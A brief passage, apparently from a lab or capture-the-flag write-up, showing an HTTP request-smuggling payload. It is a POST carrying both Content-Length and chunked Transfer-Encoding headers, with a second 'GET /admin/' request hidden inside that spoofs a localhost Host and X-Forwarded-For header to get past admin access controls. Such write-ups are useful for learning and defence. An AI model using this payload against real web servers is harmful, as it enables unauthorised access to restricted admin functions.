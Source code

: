 ![img](media/97be754c7ecb8733734c6eea4426a929.png)

To access /admin it is necessary to add the header “Host: localhost”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /admin/ HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost
Content-Length: 3

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
